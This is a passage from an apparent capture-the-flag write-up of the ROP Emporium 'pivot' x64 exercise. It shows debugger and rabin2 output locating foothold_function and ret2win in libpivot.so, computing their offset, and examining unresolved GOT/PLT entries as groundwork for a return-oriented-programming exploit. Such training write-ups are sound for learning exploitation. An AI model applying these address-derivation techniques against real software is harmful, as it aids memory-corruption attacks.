       gef➤  x/s 0x7fa191a00b20
      0x7fa191a00b20:	"foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot"

foothold_function is imported by pivot and from his address we ca obtain the ret2win adress :

Win rabin2 or readelf we cat obtain des offset of the funcions in the lib.

      root@zbook310152:/w/ropemporium/x64/07_pivot# rabin2 -s libpivot.so|grep FUN
      10  0x0000096a 0x0000096a GLOBAL FUNC   19       foothold_function
      11  0x00000b14 0x00000b14 GLOBAL FUNC   0        _fini
      12  0x00000808 0x00000808 GLOBAL FUNC   0        _init
      15  0x00000a67 0x00000a67 GLOBAL FUNC   26       void_function_10
      17  0x0000097d 0x0000097d GLOBAL FUNC   26       void_function_01
      18  0x00000a81 0x00000a81 GLOBAL FUNC   146      ret2win
      foothold_function


ret2win address is foothold_function address + 0x117 (0xa81 - 0x96a)

Where is the address of foothold_function ?

We can found it in the GOT table but only after a fist call.

Looking at the got at the end of the pwnme function.

       gef➤  got
      [*] .gef-2b72f5d0d9f0f218a91cd1ca5148e45923b950d5.py:L8817 'checksec' is deprecated and will be removed in a feature release. Use Elf(fname).checksec()

      GOT protection: Partial RelRO | GOT functions: 9

      [0x601018] free@GLIBC_2.2.5  →  0x4006d6
      [0x601020] puts@GLIBC_2.2.5  →  0x7f64f3a96820
      [0x601028] printf@GLIBC_2.2.5  →  0x7f64f3a71450
      [0x601030] memset@GLIBC_2.2.5  →  0x7f64f3b72040
      [0x601038] read@GLIBC_2.2.5  →  0x7f64f3b170e0
      [0x601040] foothold_function  →  0x400726
      [0x601048] malloc@GLIBC_2.2.5  →  0x7f64f3ab7700
      [0x601050] setvbuf@GLIBC_2.2.5  →  0x7f64f3a96e30
      [0x601058] exit@GLIBC_2.2.5  →  0x400756

The address of foothold_function has not yet been resolved.

Understanding this address : 0x400726

Starting from the function wich use foothold_function to obtain the plt entry :


      gef➤  disas uselessFunction
      Dump of assembler code for function uselessFunction:
      0x00000000004009a8 <+0>:	push   rbp
      0x00000000004009a9 <+1>:	mov    rbp,rsp
      0x00000000004009ac <+4>:	call   0x400720 <foothold_function@plt>
      0x00000000004009b1 <+9>:	mov    edi,0x1
      0x00000000004009b6 <+14>:	call   0x400750 <exit@plt>
      End of assembler dump.
      gef➤  x/4i 0x400720
      0x400720 <foothold_function@plt>:	jmp    QWORD PTR [rip+0x20091a]        # 0x601040 <foothold_function@got.plt>
      0x400726 <foothold_function@plt+6>:	push   0x5                  # <=== jump to the resolve function with entree 5
      0x40072b <foothold_function@plt+11>:	jmp    0x4006c0
      0x400730 <malloc@plt>:	jmp    QWORD PTR [rip+0x200912]        # 0x601048 <malloc@got.plt>
